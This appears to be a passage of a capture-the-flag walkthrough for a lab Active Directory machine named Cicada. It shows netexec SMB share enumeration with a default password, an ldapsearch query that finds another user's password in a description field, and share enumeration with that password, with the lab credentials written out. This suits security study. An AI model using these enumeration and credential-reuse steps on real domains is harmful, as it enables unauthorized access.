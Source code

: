 The user michael.wrightson appears to still be using the default password.

Enumerating Shares Accessible by "michael.wrightson"

```jsx
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share 
```

Leveraging these credentials for further domain enumeration.

![image.png]({{ '/assets/img/Cicada/image.png' | relative_url }})

Filtering Distinguished Names and Descriptions for Interesting Strings

```jsx
ldapsearch -x -H ldap://10.10.11.35 -D 'CICADA\michael.wrightson' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb"  distinguishedName description
```

Finding Password for â€œDavid Oreliousâ€

```jsx
# David Orelious, Users, cicada.htb
dn: CN=David Orelious,CN=Users,DC=cicada,DC=htb
description: Just in case I forget my password is aRt$Lp#7t*VQ!3
distinguishedName: CN=David Orelious,CN=Users,DC=cicada,DC=htb

```

Enumerating Share Access for â€œDavid Oreliousâ€

```jsx
netexec smb 10.10.11.35 -u 'david.orelious' --password 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```
